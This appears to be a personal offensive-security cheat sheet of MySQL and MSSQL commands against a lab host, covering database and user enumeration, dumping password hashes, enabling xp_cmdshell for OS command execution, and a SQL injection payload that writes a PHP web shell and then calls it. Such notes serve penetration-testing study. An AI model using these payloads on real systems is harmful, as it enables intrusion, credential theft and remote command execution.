 ```yaml
---
layout: post
title: SQL COMMANDS
titledate: 09/01/23
tags: ["infosec","offsec", "sql"]
---
```


<h4>MySQL</h4>

connect to remorte mysql database

    $ mysql -u root -p'root' -h 192.168.50.50 -P 3306

    $ select version();

return current user and hostname

    $ select system_user();

list databases

    $ show databases;

show tables in database

    $ show tables from mysql;

enter database

    $ use database;

list users

    $ SELECT user FROM mysql.user; 

list all values available to user

    $ select * from mysql.user where user = 'don';

show authentication_string of user

    $ SELECT user, authentication_string FROM mysql.user WHERE user = 'don';

showing specific value of user

    $ select plugin from mysql.user where user = 'don';


<h4>MSSQL</h4>

we can use impacket to connect to mssql on windows

    $ impacket-mssqlclient Administrator:Lab123@192.168.50.50 -windows-auth

    $ SELECT @@version;

list databases

    $ SELECT name FROM sys.databases;

we don't care about the master tempdb model and msdb databases

query tables in database we care about

    $ SELECT * FROM don.information_schema.tables;

query specific table information

    $ select * from don.dbo.users;

explore sysuers table inside master database

    $ select * from master.dbo.sysusers;

<h4>xp_cmdshell</h4>

after we connect to the db

    $ EXECUTE sp_configure 'show advanced options', 1;
    $ RECONFIGURE;
    $ EXECUTE sp_configure 'xp_cmdshell', 1;
    $ RECONFIGURE;
    $ EXECUTE xp_cmdshell 'whoami';

we can write files on the server with SELECT INTO_OUTFILE

    $ ' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //

here we try to use a union select to write a php web shell to /html/tmp on the server

now by entering the above statement into the form field we are injecting our webshell to the specified directory

and then in the url - we can attempt to perform the http request to our webshell with the cmd=

    http://192.168.50.50/tmp/webshell.php?cmd=id
